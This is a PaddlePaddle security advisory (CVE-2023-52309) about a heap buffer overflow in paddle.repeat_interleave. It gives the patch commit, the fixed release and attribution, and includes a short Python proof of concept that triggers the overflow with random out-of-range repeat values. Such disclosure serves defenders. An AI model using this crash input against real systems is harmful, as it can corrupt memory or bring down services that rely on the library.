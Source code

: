 ## PDSA-2023-018: Heap buffer overflow in paddle.repeat_interleave

### CVE Number

CVE-2023-52309

### Impact

Heap buffer overflow in `paddle.repeat_interleave` by using invalid params. The PoC is as follows:

```python
import paddle
import numpy as np

x = paddle.to_tensor(np.random.uniform(-6666666, 100000000, [4, 4, 8, 3, 2, 4]).astype(np.float64))
repeats = paddle.to_tensor(np.random.uniform(-2147483648, 2147483647, [2, 1]).astype(np.int32))

paddle.repeat_interleave(x, repeats, axis=-2)
```

### Patches

We have patched the issue in commit [19da5c0c4d8c5e4dfef2a92e24141c3f51884dcc](https://github.com/PaddlePaddle/Paddle/commit/19da5c0c4d8c5e4dfef2a92e24141c3f51884dcc).
The fix will be included in PaddlePaddle 2.6.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Tong Liu of CAS-IIE.
